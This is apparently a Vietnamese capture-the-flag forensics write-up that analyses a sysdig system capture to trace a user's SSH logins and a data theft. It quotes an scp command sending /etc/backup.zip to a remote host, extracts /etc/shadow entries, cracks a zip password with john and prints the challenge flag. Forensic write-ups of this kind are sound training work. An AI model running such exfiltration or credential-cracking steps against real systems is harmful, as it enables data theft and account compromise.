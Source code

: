 # StratoMonk 
![image](images/img1.png)

> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey

![image](images/img2.png)

## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được

![image](images/img3.png)

Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow

![image](images/img4.png)

## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH

![image](images/img5.png)

`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |

![image](images/img6.png)

Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip

![image](images/img7.png)

Dùng john để crack 

![image](images/img8.png)

Dùng pass đó giải nén ta được phần 3 của flag

![image](images/img9.png)

```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```

